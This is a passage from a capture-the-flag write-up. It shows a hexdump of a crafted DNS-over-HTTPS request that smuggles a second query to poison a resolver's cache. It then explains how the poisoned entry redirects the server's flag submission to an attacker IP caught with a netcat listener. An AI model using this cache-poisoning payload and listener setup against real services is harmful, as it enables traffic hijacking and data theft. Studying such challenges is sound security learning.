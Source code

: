 ```
000000C0: 80 9C C2 80 C2 80 C2 80  C2 80 C2 80 C2 80 C2 80  ................
000000D0: C2 80 C2 80 C2 80 C2 80  C2 80 C2 80 C2 80 C2 80  ................
000000E0: C2 80 C2 80 C2 80 C2 80  C2 80 C2 80 C2 80 C2 80  ................
000000F0: C2 80 C2 80 C2 80 C2 80  C2 80 C2 80 C2 80 C2 80  ................
00000100: C2 80 C2 80 C2 80 C2 80  C2 80 C2 80 C2 80 C2 80  ................
00000110: C2 80 C2 80 C2 80 C2 80  C2 80 C2 80 C2 80 C2 80  ................
00000120: C2 80 C2 80 C2 80 C2 80  C2 80 C2 80 C2 80 C2 80  ................
00000130: C2 80 C2 80 C2 80 C2 80  C2 80 C2 80 C2 80 C2 80  ................
00000140: C2 80 C2 80 C2 80 C2 80  C2 80 C2 80 C2 80 C2 80  ................
00000150: C2 80 C2 80 C2 80 C2 80  C2 80 C2 80 C2 80 A4 50  ...............P
00000160: 4F 53 54 20 2F 64 6E 73  2D 71 75 65 72 79 20 48  OST /dns-query H
00000170: 54 54 50 2F 31 2E 31 0D  0A 48 6F 73 74 3A 20 64  TTP/1.1..Host: d
00000180: 6E 73 2E 67 6F 6F 67 6C  65 0D 0A 41 63 63 65 70  ns.google..Accep
00000190: 74 3A 20 61 70 70 6C 69  63 61 74 69 6F 6E 2F 64  t: application/d
000001A0: 6E 73 2D 6D 65 73 73 61  67 65 0D 0A 43 6F 6E 74  ns-message..Cont
000001B0: 65 6E 74 2D 54 79 70 65  3A 20 61 70 70 6C 69 63  ent-Type: applic
000001C0: 61 74 69 6F 6E 2F 64 6E  73 2D 6D 65 73 73 61 67  ation/dns-messag
000001D0: 65 0D 0A 43 6F 6E 74 65  6E 74 2D 4C 65 6E 67 74  e..Content-Lengt
000001E0: 68 3A 20 33 31 0D 0A 0D  0A 00 00 01 00 00 01 00  h: 31...........
000001F0: 00 00 00 00 00 02 6D 79  06 73 65 72 76 65 72 03  ......my.server.
00000200: 63 6F 6D 00 00 01 00 01  10 65 62 64 37 37 31 39  com......ebd7719
00000210: 38 30 61 32 66 31 32 64  31 0B 69 6E 73 6F 6D 6E  80a2f12d1.insomn
00000220: 69 68 61 63 6B 04 66 6C  61 67 00 00 01 00 01     ihack.flag.....
```

## Flag

Once the cache is poisoned we can invoke a POST request to `/send-flag`. The server will resolve the flag domain using its own resolver and should get the cached IP from our poisoned request.  
Then the server submits the flag as an HTTP request to the IP we control - we just opened a `nc -l -p 80` and got the flag.

## Conclusion

For an unknown reason, the poison doesn't always work... We experimented with raw SSL sockets and made sure everything works with Google, but, sometimes, the server just won't receive the 2nd answer. We think it has something to do with the way requests handles sessions, we didn't get much into it because we ran it a few times, and it worked.  
All in all, this challenge was super fun and really highlights the importance of working correctly with binary buffers and data validation.  
So, remember to always make sure your responses match your requests, and, just a friendly reminder to all you C people -  
Always initialize your variables 😁
